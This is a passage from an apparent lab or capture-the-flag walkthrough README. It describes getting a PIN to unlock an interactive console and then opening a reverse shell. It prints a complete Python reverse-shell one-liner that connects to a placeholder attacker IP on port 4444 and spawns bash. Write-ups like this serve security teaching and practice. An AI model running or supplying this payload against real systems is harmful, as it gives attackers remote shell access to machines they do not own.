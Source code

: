 Run the exploit code to receive your pin.

<p align="left">
  <img height=300 img src=./readme_assets/pin.PNG/>
</p>

Once you enter the correct pin you will have access to the interactive console.

<p align="left">
  <img height=300 img src=./readme_assets/interactive.PNG/>
</p>

The goal now is to get a reverse shell. We used [revshells.com](https://www.revshells.com/) to help generate the code needed for the console.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURVMIP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

<p align="left">
